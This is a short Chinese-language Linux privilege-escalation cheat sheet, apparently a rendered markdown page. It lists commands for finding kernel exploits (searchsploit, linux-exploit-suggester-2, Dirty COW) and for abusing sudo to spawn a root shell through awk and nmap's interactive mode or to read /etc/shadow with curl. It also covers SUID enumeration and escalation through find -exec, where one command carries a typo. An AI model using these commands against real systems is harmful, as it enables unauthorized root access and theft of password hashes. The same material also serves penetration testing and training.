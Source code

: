 **使用 `searchsploit` 查找相关内核漏洞**

下载地址：https://github.com/offensive-security/exploitdb

```bash
searchsploit linux 3.10 CentOS Linux 7
```

**或使用 `linux-exploit-suggester-2.pl` 在目标机器上执行**

下载地址：https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl

```bash
./linux-exploit-suggester-2.pl
```

典型的脏牛提权

### sudo滥用

 `/etc/sudoers`文件定义可以执行 sudo 的账户、定义某个应用程序用 root 访问、是否需要密码验证

```bash
sudo -l	#查看当前用户可以sudo的程序
```

**AWK：**

```
sudo awk 'BEGIN {system("/bin/sh")}'	#通过生成交互式系统外Shell序来脱离受限环境，需要普通用户的密码
```

**CURL：**

```
sudo curl file:///etc/shadow
```

### SUID提权

SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

**查找正在系统上运行的所有SUID可执行文件**

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

**比如发现了find**

```bash
#随便新建一个文件，或利用已有文件
touch abc

#以SUID即root权限执行命令
find abc -exec whomai \;
```

**nmap SUID提权**

```bash
#2.02 to 5.21版本 用交互模式执行shell命令
sudo nmap --interactive		
nmap> !sh
```
